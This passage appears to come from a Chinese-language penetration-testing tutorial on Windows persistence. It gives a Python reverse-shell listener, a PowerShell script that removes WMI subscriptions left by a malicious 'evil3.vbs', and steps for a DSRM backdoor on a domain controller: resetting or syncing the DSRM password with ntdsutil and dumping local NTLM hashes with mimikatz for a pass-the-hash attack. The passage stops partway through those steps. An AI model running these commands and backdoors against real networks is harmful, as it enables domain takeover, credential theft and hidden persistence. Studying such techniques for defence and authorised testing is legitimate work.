 | ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>``` | ```python<br>import socket<br>import re<br><br>pattern = re.compile(r'[A-Z]:\\.*?>')<br>def recv_end(the_socket):<br>    total_data = []<br>    data = b''<br>    while True:<br>            data = the_socket.recv(1024)<br>            #print(data)<br>            if not data:<br>                raise ConnectionAbortedError<br>            data = str(data, encoding = 'gbk')<br>            total_data.append(data)<br>            if pattern.search(data, re.M):<br>                break<br>            if len(total_data) > 1:<br>                last_pair = total_data[-2] + total_data[-1]<br>                if pattern.search(last_pair, re.M):<br>                    break<br>    return ''.join(total_data)<br><br># 建立一个服务端<br>server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)<br>port = 6999<br>server.bind(('192.168.41.1', port)) #绑定要监听的端口<br>server.listen(5) #开始监听 表示可以使用五个链接排队<br>while True:# conn就是客户端链接过来而在服务端为期生成的一个链接实例<br>    print('------------Listening on {}------------'.format(port))<br>    conn, addr = server.accept() #等待链接,多个链接的时候就会出现问题,其实返回了两个值<br>    print(conn)<br>    while True:<br>        try:<br>            se = input(recv_end(conn))<br>            if not se:<br>                se = '\r\n'<br>            #print(bytes(se, encoding = "utf8"))<br>            conn.send(bytes(se, encoding = 'utf-8')) #然后再发送数据<br>        except BaseException as e:<br>            print('\n' + addr[0] + ':' + str(addr[1]) + '已关闭')<br>            break<br>    conn.close()           # 关闭连接<br>``` |

powercat.ps1 -> powershell 版 netcat。([https://github.com/besimorhino/powercat](https://github.com/besimorhino/powercat))

clean.ps1 -> 清除 evil3.vbs 创建的过滤器、消费者、绑定器。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```powershell<br>#Filter<br>Get-WMIObject -Namespace root\Subscription -Class __EventFilter -Filter "Name='filtP1'" \| Remove-WmiObject -Verbose<br><br>#Consumer<br>Get-WMIObject -Namespace root\Subscription -Class CommandLineEventConsumer -Filter "Name='consP1'" \| Remove-WmiObject -Verbose<br><br>#Binding<br>Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding -Filter "__Path LIKE '%filtP1%'" \| Remove-WmiObject -Verbose<br>``` |

## [](#2-%E5%9F%9F%E6%8E%A7%E5%90%8E%E9%97%A8)2 域控后门

### [](#21-dsrm-%E5%90%8E%E9%97%A8)2.1 DSRM 后门

DSRM(Directory Services Restore Mode) 是 Windows 域环境中域控制器的安全模式启动选项。每个域控制器有一个**本地管理员**账号 (也就是 DSRM 账号)。DSRM 的用途是：允许管理员在域环境出现故障或崩溃时还原、修复、重建活动目录数据库，使域环境的运行恢复正常。在域环境创建初期，DSRM 的密码需要在安装 DC 时设置，且很少会被重置。修改 DSRM 密码最基本的方法是在 DC 上运 ntdsutil 行命令。

在渗透测试中，可以使用 DSRM 账号对域环境进行持久化操作。如果域控制器的系统版本为 Windows Server 2008，则需要安装 KB96132 补丁才可以使用指定域账号的密码对 DSRM 的密码进行同步。在 Windows Server 2008 以后版本的系统中不需要安装此补丁。如果域控制器的系统版本为 Windows Server 2003，则不能使用该方法进行持久化操作。

我们知道，每个 DC 都有本地管理员 (administrator) 账号和密码。DSRM 账号可以作为 DC 的本地管理员用户，通过网络连接 DC，进而控制 DC。

在 DC 上，DSRM 账号的表现形式是本地的 administrator 用户，也就是说本地 administrator 用户 = DSRM 账号

#### [](#211-%E4%BF%AE%E6%94%B9-dsrm-%E5%AF%86%E7%A0%81%E7%9A%84%E6%96%B9%E6%B3%95)2.1.1 修改 DSRM 密码的方法

1.  微软公布了修改 DSRM 密码的方法。在域控上打开命令行环境，常用命令如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```powershell<br># NTDSUTIL：打开ntdsutil<br>set DSRM password # ：修改DSRM的密码<br>reset password on  server null # 在当前域控制器上重置DSRM的密码<br># q(第1次)：退出DSRM密码设置模式<br># q(第2次)：退出ntdsutil<br>``` |

2.  如果域控制器的系统版本为 Windows Server 2008(已安装 KB961320) 及以上，可以将 DSRM 密码同步为已存在的域账号密码。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```powershell<br>NTDSUTIL # 打开ntdsutil<br>set DSRM password # 修改 DSRM 的密码<br>sync from domain account # 域用户名字：使DSRM的密码和指定域用户的密码同步<br># q(第1次)  退出DSRM密码设置模式<br># q(第2次)  退出ntdsutil<br>``` |

#### [](#212-%E8%AE%BE%E7%BD%AE-dsrm-%E5%90%8E%E9%97%A8)2.1.2 设置 DSRM 后门

##### [](#2121-%E7%9B%B4%E6%8E%A5%E4%B8%BA-dsrm-%E8%AE%BE%E7%BD%AE%E6%96%B0%E5%AF%86%E7%A0%81)2.1.2.1 直接为 DSRM 设置新密码

1.  为 DSRM 设置新密码，获取 NTLM 哈希值，修改 DSRM 登录方式，使用哈希传递攻击域控
    
2.  查看 SAM 文件中本地管理员 administrator 的 NTLM 哈希值
    

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```powershell<br>privilege::debug<br>token::elevate<br>lsadump::sam<br>``` |
